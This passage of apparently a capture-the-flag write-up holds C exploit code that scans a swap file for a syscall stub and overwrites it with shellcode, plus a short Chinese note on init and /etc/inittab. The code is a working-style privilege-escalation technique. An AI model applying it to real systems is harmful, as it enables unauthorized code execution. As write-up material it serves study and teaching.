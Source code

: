```c
            0xf, 0x5, 0x48, 0xc7, 0xc0, 0x1, 0x0, 0x0, 0x0, 0x48, 0xc7, 0xc7,
            0x1, 0x0, 0x0, 0x0, 0xf, 0x5, 0x48, 0xc7, 0xc0, 0x3c, 0x0, 0x0, 0x0,
            0x48, 0xc7, 0xc7, 0x1, 0x0, 0x0, 0x0, 0xf, 0x5};

/*
movsxd  rdi, edi
mov     eax, 0E7h
syscall
mov     edx, 3Ch
mov     rax, rdx
syscall
*/
unsigned char needed[] = {0x48, 0x63, 0xFF, 0xB8, 0xE7, 0x00, 0x00, 0x00, 0x0F,
                            0x05, 0xBA, 0x3C, 0x00, 0x00, 0x00};

int main()
{
    if (swap == NULL) {
        printf("malloc failed\n");
        exit(1);
    }

    for (int i = 1; i <= 0x1000; i++) {
        void *mem = mmap(NULL, PAGE_1MB_SIZE, PROT_READ | PROT_WRITE | PROT_EXEC,
                 MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        memset(mem, 'A', PAGE_1MB_SIZE);
        
        int fd = open("/swap", O_RDWR);
        read(fd, swap, MB_10);

        unsigned char *ptr;
        if ((ptr = memmem(swap, MB_10, needed, sizeof(needed))) != NULL) {
            printf("FOUND !\n");
            lseek(fd, ptr-swap, SEEK_SET);
            write(fd, sc, sizeof(sc));
            close(fd);

            break;
        }
        close(fd);
    }
    free(swap);

    return 0;
}
```



- `init` 會去讀 `/etc/inittab` 作為設定檔，並依照內容依序啟動 process

  ```
  ::sysinit:/etc/init.d/rcS
  ::once:-setuidgid 1 sh
  ```
